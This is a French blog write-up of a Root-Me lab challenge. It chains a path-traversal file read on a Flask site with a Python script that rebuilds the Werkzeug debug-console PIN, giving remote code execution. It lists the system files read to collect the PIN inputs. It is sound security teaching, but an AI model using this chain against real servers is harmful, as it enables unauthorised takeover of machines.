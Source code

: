 ```yaml
---
layout: post
title:  LFI to RCE sur un serveur Flask 
categories: Flask
permalink: post_0
---
```





Flask est un framework Python, permettant de créer et développer des applications web de manière simple et efficace. Flask s'appuie sur d'autres frameworks tels que `Jinja` et `Werkzeug`. C'est Werkzeug et sa console en ligne que nous attaqueront ici pour prendre le contrôle de la machine à distance.

Voyons à présent à quoi ressemble le site web.

<img src="../images/posts/post_0_1.png" alt="Page d'accueil du site"/>

La page d'accueil nous explique que le site web est encore en développement, et est alors probablement en debug mode. C'est effectivement le cas, et une console en ligne est bien présente, protégée d'un code pin.

Continuons de découvrir le site.

<img src="../images/posts/post_0_2.png" alt="Page services du site" />

La barre de recherche est pas encore fonctionnelle. On se rend assez rapidement compte qu'elle est sensible aux attaques `LFI`. Le simple fait de chercher `../`, ou même `/` nous renvoie que c'est un dossier :

    [Errno 21] Is a directory: '../'

Néanmoins, nous ne somme pas root et n'avons pas la possibilité de lire tous les fichiers, ou d'exécuter des commandes à distance. Revenons alors sur la console Werkzeug. En étudiant son fonctionnement grâce à son repo [github], on constate que des variables bien particulières sont utilisés pour générer le code pin :


{% highlight python  %}
 # This information only exists to make the cookie unique on the
 # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

  # This information is here to make it harder for an attacker to
  # guess the cookie name.  They are unlikely to be contained anywhere
  # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]
{% endhighlight %}

### probably_public_bits :

La première partie `probably_public_bits` contient des valeurs assez générales, pour la plupart faciles à obtenir, cependant, pour la partie `private_bits`, il est impossible de les obtenirs sans avoir accès à la machine. Nous utiliserons alors ici la faille `LFI` pour rassembler ces informations. 

#### username

Pour l'username, on trouve dans le fichier `etc/passwd` l'utilisateur `web-app`. 

#### modname

C'est une valeur constante : `flask.app`

#### getattr(app, "\_\_name__", type(app).\_\_name__)

Cette valeur est aussi une valeur constante : `flask`

#### getattr(mod, "\_\_file__", None)

Pour obtenir cette valeur, il faut savoir où se situe le fichier de la librairie Flask `app.py`. Le chemin `/usr/local/lib/python3.11/site-packages/` existe, mais semble vide.
En cherchant un peu les endroits possibles où pourrait être installé Flask, nous pouvons finalement le trouver dans le dossier `.local` de l'utilisateur : `/home/web-app/.local/lib/python3.11/site-packages/flask/app.py`


### private_bits :
#### str(uuid.getnode())

`uuid.getnode()` en python utilise l'adresse mac de la machine et la transforme en un identifiant. Pour trouver la bonne adresse mac de la machine, puisqu'elle peut en avoir plusieurs, nous pouvons lire le fichier `/proc/net/arp`, qui représente la table ARP de la machine.

    IP address HW type Flags HW address Mask Device 172.17.0.1 0x1 0x2 02:42:c0:00:2d:b3 * eth0

Plus clairement : 

    IP address : 172.17.0.1 
    HW type : 0x1
    Flags : 0x2
    HW address : 02:42:c0:00:2d:b3
    Mask : *
    Device : eth0         

`HW address` n'est pas l'adresse de la machine, mais grâce au fait que nous ayons `eth0`, nous pouvons alors trouver l'adresse mac ici : `/sys/class/net/eth0/address` 

Nous obtenons alors `02:42:ac:11:00:27`. Il faut alors la transformer en décimal, nous donnant le nombre `2485377892391`

#### get_machine_id()

Selon le code source de Werkzeug, 2 moyens sont possibles pour obtenir l'identifiant : `/etc/machine-id` ou bien `/proc/sys/kernel/random/boot_id`.

{% highlight python  %}
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break
{% endhighlight %}

`machine-id` est un identifiant unique généré lors du tout premier boot de la machine, et ne change plus jamais lors des prochains boots.
`boot_id` est un identifiant généré à chaque démarage de la machine. 



Le premier fichier n'est pas présent sur la machine, le deuxième quand à lui donne : `ac83be61-74d3-4ad0-a964-93e858cab0fb`

Nous avons désormais tous les éléments nécessaires pour générer le bon code pin. Voici un programme Python réalisant cela :


{% highlight python  %}
import hashlib
from itertools import chain
probably_public_bits = [
    'web-app',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/web-app/.local/lib/python3.11/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892391',  # /sys/class/net/eth0/address
    'ac83be61-74d3-4ad0-a964-93e858cab0fb'  # /proc/sys/kernel/random/boot_id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
{% endhighlight %}

Nous avons désormais généré le code pin de la console de debug. Désormais, nous avons accès à une interface de commande Python et avons les pleins pouvoirs sur la machine.

Le challenge réalisé ici est issue du site [ROOT-ME]


[ROOT-ME]: https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Development-server
[github]: https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py